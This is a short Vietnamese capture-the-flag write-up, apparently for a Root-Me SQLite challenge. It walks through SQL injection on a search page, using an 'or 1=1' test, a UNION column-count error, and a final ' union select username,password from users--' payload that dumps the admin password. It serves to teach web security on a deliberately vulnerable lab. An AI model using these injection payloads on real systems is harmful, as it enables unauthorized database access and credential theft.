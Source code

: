 Đoán được phần này trang login sẽ không dễ dàng như 2 phần trước, ta thử ở 1 trang khác cũng có input, đó là trang search

Nhập vào input quen thuộc  `'or 1=1'`, kết quả hiện ra như sau:

> *5 result(s) for "' or 1=1--"*
>
> **Système de news / News system** (La mise en place du système de news est désormais effective / News system activated.)
> **Publication du site / Site publication** (Le site est désormais ouvert à toutes et à tous / Site is open)
> **Bienvenu / Welcome** (Bienvenu à tous / Welcome all !)
> **Correction faille / Vulnerability** (Un petit malin a trouvé un trou dans notre nouveau site. Trou bouché ! / Vulnerability fix)
> **Système de recherche / Search Engine** (Un système de recherche nous permet désormais de rechercher une news / News : search engine :))

Vậy ta biết có thể inject sql từ đây. Thường những database lưu dữ liệu ng dùng trong bảng `users`, sửa lại input thành:

`' union select * from users--`

hiện ra thông báo lỗi

> **Warning**:  SQLite3::query(): Unable to prepare statement: 1,  SELECTs to the left and right of UNION do not have the same number of  result columns in **/challenge/web-serveur/ch19/index.php** on line **150**
>  SELECTs to the left and right of UNION do not have the same number of result columns

Ta đoán có thể do bảng News chỉ có 2 trường `name` và `description`(cũng chính là những gì đã hiển thị). Vậy thử sửa lại input lần nữa:

`' union select username,password from users--`

sẽ lấy được password cua admin
